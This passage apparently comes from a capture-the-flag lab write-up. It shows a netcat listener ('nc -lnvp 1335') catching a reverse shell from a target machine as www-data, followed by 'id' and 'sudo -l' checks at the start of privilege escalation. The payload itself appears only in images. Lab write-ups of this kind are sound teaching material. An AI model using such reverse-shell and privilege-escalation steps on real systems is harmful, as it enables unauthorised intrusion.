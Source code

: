 ![](/assets/img/posts/mns/6.png)

Set a listener and call it.

![](/assets/img/posts/mns/7.png)

We have successfully get the reverse shell as `www-data`. Let's check for sudo privilege by running `sudo -l` command.

```bash
➜  nc -lnvp 1335
listening on [any] 1335 ...
connect to [10.4.29.202] from (UNKNOWN) [10.10.209.251] 46108
Linux 0717c3460eb4 4.15.0-142-generic #146-Ubuntu SMP Tue Apr 13 01:11:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 23:43:13 up  2:09,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1000(john)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1000(john)
$ sudo -l
Matching Defaults entries for www-data on 0717c3460eb4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

```